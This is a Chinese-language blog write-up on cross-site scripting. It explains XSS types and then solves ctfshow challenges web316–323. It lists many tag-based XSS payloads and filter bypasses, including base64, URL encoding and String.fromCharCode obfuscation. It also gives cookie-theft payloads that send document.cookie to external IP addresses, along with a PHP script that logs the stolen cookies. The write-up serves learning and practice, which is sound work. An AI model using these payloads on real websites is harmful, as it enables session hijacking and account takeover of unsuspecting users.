# XSS跨站漏洞



## 0x01xss前言

之前对xss跨站攻击只是停留在概念的理解上，这次开始做ctfshow的xss部分，那就深入学习一下xss吧

## 0x02xss介绍

### 原理


- 简单来说就是恶意攻击者会在 Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行

### 概念

XSS (Cross Site Scripting) 攻击全称跨站脚本攻击，是一种经常出现在 Web 应用中的计算机安全漏洞。

站中包含大量的动态内容以提高用户体验，比过去要复杂得多。所谓动**态内容，就是根据用户环境和需要，Web应用程序能够输出相应的内容**。动态站点会受到称XSS的威胁，而**静态站点则完全不受其影响**。

  跨站脚本攻击是一种针对网站应用程序的安全漏洞攻击技术，是代码注入的一种。它允许恶意用户将代码注入网页，其他用户在浏览网页时会受到影响，恶意用户利用xss 代码攻击成功后，可能得到很高的权限、私密网页内容、会话和cookie等各种内容

  攻击者利用XSS漏洞旁路掉访问控制——例如同源策略(same origin policy)。这种类型的漏洞由于被黑客用来编写危害性更大的网络钓鱼(Phishing)攻击而变得广为人知。对于跨站脚本攻击，黑客界共识是：**跨站脚本攻击是新型的“缓冲区溢出攻击”，而JavaScript是新型的“ShellCode”。**

  xss漏洞通常是通过php的输出函数将javascript代码输出到html页面中，通过用户本地浏览器执行的，所以**xss漏洞关键就是寻找参数未过滤的输出函数。**

### 利用的函数

比如说php中的脚本的输出函数

  常见的输出函数有：`print`、`print_r`、`echo`、`printf`、`sprintf`、`die`、`var_dump`、`var_export`

### 产生层面

**产生层面一般都是在前端**，JavaScript代码能干什么，执行之后就会达到相应的效果

### 利用场景

1. 浏览器可以执行JavaScript代码（这不是废话吗）。
2. 网页可以显示用户输入的内容。包括但不限于：根据url中的参数渲染网页、预览输入框写好的内容、留言板等其他用户提交的内容等

那么很显然这是被动的攻击，在之前并不流行，但是现在互联网主要讲求一个”互”,所以自然而然的也可以进行利用了，而能来干什么(最常见的钓鱼)，xss本质上来说是一种钓鱼攻击，所以 XSS 的危害角度上也是以钓鱼能够造成的危害为主。

### 危害（能拿来干什么）

- 窃取cookie 或token 来获得用户登录态；
- 劫持流量，把用户正在访问的页面跳转到钓鱼网站；
- 盗用账户来转账、群发信息等；
- 利用用户的设备来发起DDOS攻击；
- 网站挂马
- 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力
- 盗窃企业重要的具有商业价值的资料

所以归根结底，x**ss的攻击方式就是想办法"教唆"用户的浏览器去执行一些这个网页中原本不存在的前端代码**。可问题在于尽管一个信息框突然弹出来并不怎么友好，但也不至于会造成什么真实伤害啊。的确如此，但要说明的是，这里拿信息框说事仅仅是为了举个栗子，真正的黑客攻击在XSS中除非恶作剧，不然是不会在恶意植入代码中写上alert("say something")的。在真正的应用中，XSS攻击可以干的事情还有很多，这里举两个例子。

1. 窃取网页浏览中的cookie值。在网页浏览中我们常常涉及到用户登录，登录完毕之后服务端会返回一个cookie值。这个cookie值相当于一个令牌，拿着这张令牌就等同于证明了你是某个用户。如果你的cookie值被窃取，那么攻击者很可能能够直接利用你的这张令牌不用密码就登录你的账户。如果想要通过script脚本获得当前页面的cookie值，通常会用到cookie。试想下如果像空间说说中能够写入xss攻击语句，那岂不是看了你说说的人的号你都可以登录（不过貌似QQ的cookie有其他验证措施保证同一cookie不能被滥用）
2. 劫持流量实现恶意跳转。这个很简单，就是在网页中想办法插入一句像这样的语句：http://www.baidu.com那么所访问的网站就会被跳转到百度的首页。早在2011年新浪就曾爆出过严重的xss漏洞，导致大量用户自动关注某个微博号并自动转发某条微博。具体各位可以自行百度。

### 利用环境

利用XSS需要浏览器版本和内核没有过滤XSS攻击（比如用谷歌Edge火狐等打开可以成功，但是IE却会拦截）

## 0x03xss攻击

XSS攻击分成两类，一类是来自内部的攻击，另一类则是来自外部的攻击

（1）来自内部的攻击
  主要指的是利用程序自身的漏洞，构造跨站语句，如:dvbbs的showerror.asp存在的跨站漏洞。

（2）来自外部的攻击
  主要指的自己构造XSS跨站漏洞网页或者寻找非目标机以外的有跨站漏洞的网页。如当我们要渗透一个站点，我们自己构造一个有跨站漏洞的网页，然后构造跨站语句，通过结合其它技术，如社会工程学等，欺骗目标服务器的管理员打开。

## 0x04xss分类及介绍

#### 1、反射型(非持久化)

1.原理
  反射型xss又称非持久型xss，是目前最普遍的类型，这种攻击方式往往具有一次性。发出请求时，XSS代码出现在URL中，作为输入提交到服务器端，服务器端解析后响应，XSS代码随响应内容一起传回给浏览器，最后浏览器解析执行XSS代码。这个过程像一次反射，所以称反射型XSS。

2.攻击方式

  攻击者通过电子邮件等方式将包含xss代码的恶意链接发送给目标用户。当目标用户访问该链接时，服务器接受该用户的请求并进行处理，然后服务器把带有xss代码的数据发送给目标用户的浏览器，浏览器解析这段带有xss代码的恶意脚本后就会触发xss漏洞

3 判断是否存在反射型xss漏洞并利用

判断方法:判断有没有过滤一些特殊的字符串（比如对比输出的字符和输出的字符）,然后测试观察源代码有没有成功插入，如果可以插入那就构造payload进行注入

这里简单写个demo来看看

demo

```php
<?php
$xss=$_GET['x'];
echo $xss;
```

```
?x=<script>alert(1)</script>
```



传入后直接就出现弹窗了,说明我们的恶意代码被解析插入网页中了，但这个demo相对简单，不能更好的理解攻击原理，我们再举个demo看看

这里我就直接拿我朋友的demo来介绍了

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>XSS 测试页面</title>
</head>
<body>
<h1>XSS 测试页面</h1>

<form action="xss_test.jsp" method="get">
    <label for="message">输入消息:</label>
    <input type="text" id="message" name="message" value="<%= request.getParameter("message") == null ? "" : request.getParameter("message") %>">
    <button type="submit">提交</button>
</form>

<div>
    您输入的消息是：<%= request.getParameter("message") == null ? "null" : request.getParameter("message") %>
</div>
</body>
</html>
```

如果使用`Tomcat`来搭建一个本地服务，其中载入`jsp`漏洞代码，即可进行`xss`测试

先简单的写个`xss_test.jsp`直接用来测试的

我们直接在输入框中输入

```html
<script>alert('XSS')</script>
```

发现弹窗成功，我们再看看代码

```jsp
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>XSS 测试页面</title>
</head>
<body>
<h1>XSS 测试页面</h1>

<form action="xss_test.jsp" method="get">
    <label for="message">输入消息:</label>
    <input type="text" id="message" name="message" value="<script>alert('XSS');</script>">
    <button type="submit">提交</button>
</form>

<div>
    您输入的消息是：<script>alert('XSS');</script>
</div>
</body>
</html>
```

可以看到我们的恶意代码插入了刚刚的输入框，也就是被放进源码之中解析了。

到这里很多人就要问了，这个payload是什么，看不懂一点，那就先介绍一下payload

分析payload

```html
<script>alert('XSS')</script>
```

- `<script>`标签用于在HTML文档中嵌入或引用JavaScript代码。浏览器会执行`<script>`标签内的代码。
- `alert('XSS')`是一个JavaScript函数调用，用于在浏览器中弹出一个警告框，显示文本内容，这里的内容就是括号里面的“XSS”。

反射型XSS 的攻击构造与理解异常简单与轻松，难点在于各种绕过手段。

#### 2.存储型



（1）原理
  存储型XSS和反射型XSS的差别仅在于，提交的代码会存储在服务器端（数据库、内存、文件系统等），下次请求目标页面时不用再提交XSS代码。最典型的例子就是留言板XSS，用户提交一条包含XSS代码的留言存储到数据库，目标用户查看留言板时，那些留言就会从数据库中加载出来并显示，于是触发了XSS攻击.每一个访问特定页面的用户，都会受到攻击。

（2）攻击方式
  这种攻击多见于论坛、博客和留言板中，攻击者在发帖的过程中，将恶意脚本连同正常的信息一起注入帖子的内容中。随着帖子被服务器存储下来，恶意脚本也永久的存放在服务器的后端存储器中。当其他用户浏览这个被注入了恶意脚本的帖子时，恶意脚本会在它们的浏览器中得到执行

（3）payload

```html

```

分析一下这个代码

1. **`` 标签**：
   - 这是一个用于插入图像的 HTML 标签。在正常情况下，`src` 属性应该包含一个指向图像文件的有效 URL。
2. **`src="1"`**：
   - 在这里，`src` 属性被设置为 `"1"`，这是一个无效的图像链接。当浏览器尝试加载这个图像时，它会失败，因为没有有效的图像文件可以加载。
3. **`onerror` 属性**：
   - `onerror` 是一个事件处理程序，当图片加载失败时触发。在这种情况下，由于 `src` 指向的是一个无效的资源，`onerror` 中的 JavaScript 代码将被执行。
4. **`alert(/xss/)`**：
   - 这是在 `onerror` 事件被触发时执行的 JavaScript 代码。`alert` 函数会弹出一个对话框，显示内容 `/xss/`。这里的 `/xss/` 是一个正则表达式字面量，在弹出的对话框中会被当作字符串处理。

注入后重新刷新发现直接回显注入的东西，说明是存储型xss

其实我们下面也会提到关于标签的，这里只是其中一种


## 0x05xss常见标签语句

### 0x01\<a> 标签

```
<a href="javascript:alert(1)">test</a>
<a href="x" onfocus="alert('xss');" autofocus="">xss</a>
<a href="x" onclick=eval("alert('xss');")>xss</a>
<a href="x" onmouseover="alert('xss');">xss</a>
<a href="x" onmouseout="alert('xss');">xss</a>
```

### 0x02. \标签

```


```

### 0x03. \<iframe>标签

```
<iframe src="javascript:alert(1)">test</iframe>
<iframe onload="alert(document.cookie)"></iframe>
<iframe onload="alert('xss');"></iframe>
<iframe onload="base64,YWxlcnQoJ3hzcycpOw=="></iframe>
<iframe onmouseover="alert('xss');"></iframe>
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
```

### 0x04. \<audio> 标签

```
<audio src=1 onerror=alert(1)>
<audio><source src="x" onerror="alert('xss');"></audio>
<audio controls onfocus=eval("alert('xss');") autofocus=""></audio>
<audio controls onmouseover="alert('xss');"><source src="x"></audio>

```

### 0x05. \<video>标签

```
<video src=x onerror=alert(1)>
<video><source onerror="alert('xss');"></video>
<video controls onmouseover="alert('xss');"></video>
<video controls onfocus="alert('xss');" autofocus=""></video>
<video controls onclick="alert('xss');"></video>
```

### 0x06. \<svg> 标签

```
<svg onload=javascript:alert(1)>
<svg onload="alert('xss');"></svg>
```

### 0x07. \<button> 标签

```
<button onclick=alert(1)>
<button onfocus="alert('xss');" autofocus="">xss</button>
<button onclick="alert('xss');">xss</button>
<button onmouseover="alert('xss');">xss</button>
<button onmouseout="alert('xss');">xss</button>
<button onmouseup="alert('xss');">xss</button>
<button onmousedown="alert('xss');"></button>
```

### 0x08. \<div>标签

这个需要借助url编码来实现绕过

```
原代码：
<div onmouseover='alert(1)'>DIV</div>
经过url编码：
<div onmouseover%3d'alert%26lpar%3b1%26rpar%3b'>DIV<%2fdiv>
```

### 0x09. \<object>标签

这个需要借助 data 伪协议和 base64 编码来实现绕过

```
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4="></object>
```

### 0x10. \<script> 标签

```
<script>alert('xss')</script>
<script>alert(/xss/)</script>
<script>alert(123)</script>
```

### 0x11. \<p> 标签

```
<p onclick="alert('xss');">xss</p>
<p onmouseover="alert('xss');">xss</p>
<p onmouseout="alert('xss');">xss</p>
<p onmouseup="alert('xss');">xss</p>
```

### 0x12. \<input> 标签

```
<input onclick="alert('xss');">
<input onfocus="alert('xss');">
<input onfocus="alert('xss');" autofocus="">
<input onmouseover="alert('xss');">
<input type="text" onkeydown="alert('xss');"></input>
<input type="text" onkeypress="alert('xss');"></input>
<input type="text" onkeydown="alert('xss');"></input>
```

### 0x13. \<details>标签

```
<details ontoggle="alert('xss');"></details>
<details ontoggle="alert('xss');" open=""></details>
```

### 0x14. \<select> 标签

```
<select onfocus="alert('xss');" autofocus></select>
<select onmouseover="alert('xss');"></select>
<select onclick=eval("alert('xss');")></select>
```

### 0x15. \<form> 标签

```
<form method="x" action="x" onmouseover="alert('xss');"><input type=submit></form>
<form method="x" action="x" onmouseout="alert('xss');"><input type=submit></form>
<form method="x" action="x" onmouseup="alert('xss');"><input type=submit></form>
```

### 0x16. \<body> 标签

```
<body onload="alert('xss');"></body>
```

# 反射性xss

## web316

### #反射性xss



反射性XSS

### 解题思路

这道题的话我们输入最经典的xss语句试一下

```html
<script>alert('XSS')</script>
```

#### 解析语句\<script>alert('XSS')\</script>

提供的内容是一个JavaScript脚本，其中包含了一个弹窗警告（alert），用于展示一个包含‘XSS’文字的弹窗。

插入后发现有弹窗显示xss，查看源代码的时候也看到web页面源代码有xss语句，证明我们的xss语句被成功插入并解析



```html
<script>alert(document.cookie)</script>
```



这里的话是相当于x自己了，我们拿到的是我们自己用户访问页面时候的cookie，但是这里可以看到需要admin权限

所以我们需要的是管理员admin访问这个页面时候的cookie，那我们怎么去拿到admin的cookie呢?

这时候就需要我们在web页面中插入xss语句来实现这个功能了

### payload1:document.location.href

```html
<script>document.location.href="http://124.223.25.186/xss.php?cookie="+document.cookie</script>
```

解析一下

1. `<script>`：这是HTML中用于嵌入JavaScript代码的标记。
2. `document.location.href` 是 JavaScript 中用于获取当前页面的 URL 地址的属性，通过 `document.location.href` 可以获取当前页面的完整 URL，包括协议、域名、端口、路径以及查询参数等信息。这个属性通常用于获取当前页面的 URL，并且可以用来跳转到其他页面。
3. 后面的http://xxx就是远端服务器的ip地址或者xss平台的域名，这样将会导致浏览器重定向到指定URL（`http://xxx/1.php?1=`）并且附带当前页面的 cookie 信息

攻击的原理是，当用户浏览包含这段恶意脚本的网页时，浏览器会执行这段JavaScript代码，将用户的cookie信息发送到指定的恶意网站

知道了攻击原理，我们需要另外创建一个php文件去执行后面这个1='+document.cookie的功能

```php
<?php
	$cookie = $_GET['cookie'];
	$time = date('Y-m-d h:i:s', time());
	$log = fopen("cookie.txt", "a");
	fwrite($log,$time.':    '. $cookie . "\n");
	fclose($log);
?>
```

将xss语句插入网站后就可以等admin去访问网站了，访问之后就可以在服务器的网页目录中看到有cookie.txt文件，里面就有管理员的cookie啦



这里也可以看出后台是会有管理员进行定时的一个访问的，不然这题没法做了

### payload2:window.open

```html
<script>window.open('http://118.31.168.198:39543/'+document.cookie)</script>
```

`window.open()` 方法用于打开一个新窗口或标签页，并加载指定的 URL并包含当前页面的cookie信息

## web317

### #过滤script标签

一样的页面，题目提示说开始过滤，我们正常插入xss语句进去试试

```php
<script>alert('XSS')</script>
```

发现并没有弹窗，也没有生成正常的回显，猜测是script被过滤了导致无法插入页面

我们看看有没有其他标签可以代替的

### body标签

\`<body>` 标签是 HTML 文档结构中的一个重要标签，用来定义网页的主体部分

语法

```html
<body>
    <!-- 页面内容放在这里 -->
</body>
```

`<body>` 标签常见属性：

- `background`：指定页面背景的图片或颜色。
- `text`：指定页面中文本的颜色。
- `link`：指定未被访问链接的颜色。
- `alink`：指定激活链接时的颜色。
- `vlink`：指定已访问链接的颜色。

```html
<body onload="document.location.href="http://[ip]/xss.php?cookie="+document.cookie"></body>
<body onload="window.open('http://118.31.168.198:39543/'+document.cookie)">
```

xss.php文件的内容是不变的，都可以用来接受cookie

### iframe标签

\<iframe> 标签是在 HTML 中用来嵌入另一个 HTML 页面的标签

语法

```html
<iframe src="嵌入页面的URL" width="宽度" height="高度" frameborder="边框显示方式"></iframe>
```

常见属性

- `src`：指定要嵌入的页面的 URL 地址。
- `width`：指定 iframe 的宽度。
- `height`：指定 iframe 的高度。
- `frameborder`：指定是否显示 iframe 的边框。可以设置为 `1` 表示显示边框，`0` 表示隐藏边框。

```html
<iframe onload="document.location.href='http://156.238.233.87/xss.php?cookie='+document.cookie"></iframe>
<iframe onload="window.open('http://118.31.168.198:39543/'+document.cookie)"></iframe>
```

在这个 `<iframe>` 标签中，使用了 `onload` 事件。`onload` 事件在 `<iframe>` 内部的页面加载完成后被触发。

### img标签

 标签是在 HTML 中用来插入图片的标签

语法

```html

```

常见属性

- `src`：指定要显示的图片的 URL 地址。
- `alt`：用于指定图片的替代文本，当图片无法显示时会显示替代文本。这对于可访问性很重要，也有利于 SEO。
- `width`：指定图片的宽度。
- `height`：指定图片的高度。
- `title`：提供一个关于图片的额外信息，通常当鼠标悬停在图片上时显示。
- `style`：用于指定样式属性，如宽度、高度、边框等。
- `class`：用于指定 CSS 类，可以通过 CSS 样式表来定义图片的样式。

```html

```

- 代码中利用了 `onerror` 事件。当浏览器无法加载指定的图片时（由于 `src` 属性中的路径为空），会触发 `onerror` 事件。

不过好像我用img标签打不出来，看到别人的wp都打出来了，应该是环境问题

这几个标签都是可以替代script的，其写法上会有些许不同

## web318-319

### #增加标签过滤

一个个试试

``输入发现没有回显

`<body>alert(1)</body>`输入发现有回显

那我们试一下body标签

```
<body onload="document.location.href='http://[ip]/xss.php?cookie='+document.cookie"></body>

```



这里可以看到有flag了，第一个应该是我自己访问了这个网站拿到的我自己的cookie

## web320-321

### #绕过空格

先输入这个试试

```html
<body onload="document.location.href='http://[ip]/xss.php?xss='+document.cookie"></body>
```

这时候注意看url的参数，发现空格不见了



我们再加个空格试试

```html
<body onload ="document.location.href='http://[ip]/xss.php?xss='+document.cookie"></body>
```



这下可以确定空格是被过滤了的，我们这时候就需要绕过空格了

绕过空格的姿势在rce里面有很多，我们试试行不行

### 绕过空格姿势

/**/

/

tab(%09)

### 额外的payload:

#### js中String.fromCharCode()方法

ascii码转字符

在不断查找wp之后我发现了这个函数也能用来打payload

用它我可以构造一个payload：

```html
<body/**/οnlοad=document.write(String.fromCharCode(60,115,99,114,105,112,116,62,100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,46,104,114,101,102,61,39,104,116,116,112,58,47,47,49,50,48,46,52,54,46,52,49,46,49,55,51,47,74,97,121,49,55,47,49,50,55,46,112,104,112,63,99,111,111,107,105,101,61,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,60,47,115,99,114,105,112,116,62));>
```

```
String.fromCharCode(***)`就是`<script>document.location.href='http://120.46.41.173/Jay17/127.php?cookie='+document.cookie</script>
```

这里放两个脚本

#### 字符串转ascii码脚本

```python
input_str = input("请输入字符串: ")  # 获取用户输入的字符串
ascii_list = []
# 遍历字符串，将每个字符转换为ASCII码，并添加到列表中
for char in input_str:
    ascii_code = ord(char)  # 使用ord()函数获取字符的ASCII码
    ascii_list.append(str(ascii_code))  # 将ASCII码转换为字符串并添加到列表
# 将列表中的ASCII码用逗号隔开，并打印结果
result = ','.join(ascii_list)
print("转换后的ASCII码:", result)

```

#### ascii码转字符串脚本

```python
def ascii_to_string(ascii_str):
    # 将以逗号分隔的ASCII码字符串分割成一个列表
    ascii_list = ascii_str.split(',')
    # 使用列表推导式将ASCII码转换为字符，并连接成一个字符串
    result = ''.join(chr(int(code)) for code in ascii_list)
    return result
# 输入以逗号分隔的ASCII码字符串
ascii_str = input("请输入以逗号分隔的ASCII码字符串: ")

# 调用函数进行转换并打印结果
string_result = ascii_to_string(ascii_str)
print("转换后的字符串:", string_result)


```

## web322-326

### #过滤xss

常规的先试试

```
<body onload="document.location.href='http://[ip]/xss.php?xss='+document.cookie"></body>
```



这样看的话是没什么问题的，还是跟之前一样是过滤了空格，但是我正常插入我的payload的时候发现没有跳转成功

我一开始以为是我的标签被过滤了，然后换了几个都没成功，后面才发现是xss被过滤了

然后我就把php代码里面的参数改成cookie就成功了(因为我上一题测试的时候把参数从cookie换成xss了，所以刚好碰到这道题过滤了xss，也算是刚好学到这道题了) 

注:后面发现好像不止过滤了xss，script和空格，还过滤了img，iframe，分号和逗号，各位可以去测试一下

## web323

跟322的做法一样，不过因为我最后不是发现了322过滤了其他的字符嘛，我就拿来测试了一下



确实是过滤了img标签

